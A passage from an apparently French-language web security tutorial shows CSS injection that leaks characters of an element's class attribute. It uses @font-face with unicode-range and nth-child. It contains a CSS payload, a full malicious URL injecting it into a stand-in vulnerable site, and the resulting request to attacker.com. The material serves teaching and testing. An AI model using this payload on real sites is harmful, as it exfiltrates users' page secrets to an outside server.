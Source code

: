 <figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

L'ajout de la pseudo-class `nth-child()` va permettre de sélectionner seulement le second élément HTML ayant l'attribut class désiré :

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // S'applique pour le troisième fils et ayant la Class ciblée par l'attaque
  .secret:nth-child(3) {
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```
{% endcode %}

Le lien malicieux permettant l'exploitation en fonction de la valeur de l'attribut `class` ainsi que de la position de l'élément ciblé est alors le suivant :

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-par-class-via-nth-child.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073;}.secret:nth-child(3){font-family:attack;}
```
{% endcode %}

{% hint style="warning" %}
Attention à bien encoder le caractère "+" par son équivalent URL encodée "%2b".
{% endhint %}

{% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

